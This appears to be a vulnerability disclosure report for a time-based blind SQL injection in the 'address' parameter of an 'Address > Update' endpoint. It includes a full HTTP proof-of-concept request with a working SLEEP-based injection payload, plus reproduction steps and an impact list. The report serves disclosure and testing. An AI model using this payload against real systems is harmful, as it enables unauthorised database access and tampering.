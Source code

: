 # Time-Based Blind SQL injection leads to database extraction

#### Description
The `address` parameter in the `Address > Update` endpoint is not properly sanitized, allowing for SQL injection attacks. By injecting specific SQL commands, an attacker can make the database execute arbitrary queries. In a time-based blind SQL injection, the attacker leverages time delays to infer database responses based on the duration of the application's response.

#### Proof of Concept (PoC)

```
POST /ajax_table.php HTTP/1.1
Host: demo.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 221
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: cookie here
Origin: https://demo.target.com
Referer: https://demo.target.com/search/search=mac/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Csrf-Token: pqiGN72KyLqHwTyBgwtU6WVk216yTkC3TncjuZmX
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc
```

#### Expected Behavior
If the application is vulnerable, it will delay the response by 5 seconds, indicating that the injected SQL query was executed. This delay confirms the presence of a time-based blind SQL injection vulnerability

#### Steps to Reproduce
1. Navigate to the Address > Update feature in the application.
2. Intercept the request using a proxy tool like Burp Suite.
3. Modify the `address` parameter to include the time-based SQL payload: `'XOR(SELECT(0)FROM(SELECT(SLEEP(5)))a)XOR'Z`.
4. Forward the request and observe the response time.
5. Note that the server response is delayed by the specified time (e.g., 5 seconds), indicating the execution of the SQL injection payload.

#### Impact
Successful exploitation of this vulnerability could allow an attacker to:

* Retrieve sensitive information from the database.
* Modify or delete database entries.
* Execute arbitrary SQL commands.
